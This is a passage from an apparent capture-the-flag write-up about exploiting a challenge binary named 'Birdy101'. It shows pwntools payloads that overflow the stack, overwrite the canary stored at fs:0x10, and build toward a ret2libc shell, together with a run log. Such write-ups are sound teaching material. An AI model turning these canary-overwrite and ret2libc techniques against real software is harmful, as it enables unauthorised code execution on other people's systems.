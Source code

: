 I changed my payload to be
```python
con.send(cyclic(cyclic_find('faaxgaax')) + p64(elf.bss() - 0x972))
```

and now we get the `*** stack smashing detected ***: terminated` string again!

```bash
$ python exploit.py
[*] '/tmp/a/Birdy101'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './Birdy101': pid 23947
[!] cyclic_find() expected a 4-byte subsequence, you gave b'faaxgaax'
    Unless you specified cyclic(..., n=8), you probably just want the first 4 bytes.
    Truncating the data at 4 bytes.  Specify cyclic_find(..., n=8) to override this.
[*] Switching to interactive mode
What is your name? Welcome 0\x10@
[Under construction] - This section is underconstruction and only allows a single note to be kept in memory
Enter the contents you want to store: *** stack smashing detected ***: terminated
[*] Got EOF while reading in interactive
$
[*] Process './Birdy101' stopped with exit code -6 (SIGABRT) (pid 23947)
```

So now we overwrote `fs:0x10`.
I changed the payload to be
```python
payload = cyclic(cyclic_find('faaxgaax'))
payload += p64(elf.bss() - 0x972)
payload += cyclic(0x100)
```

using `gdb` I saw that this indeed worked, and that the canary was `eaaafaaa`.
I changed my payload to be
```python
payload = cyclic(cyclic_find('faaxgaax'))
payload += p64(elf.bss() - 0x972)
payload += cyclic(cyclic_find('eaaafaaa'))
payload += p64(0xAAAAAAAA)
```

and the canary was `0xAAAAAAAA`, now I fully control it!

That means I can overwrite it and use a `ret2libc` attack!

# Final exploit
1. I leaked the libc base using the vuln in `register_user`
2. I used the overflow in `vuln` to grant me a shell
3. I used the overflow in `vuln` to change the canary
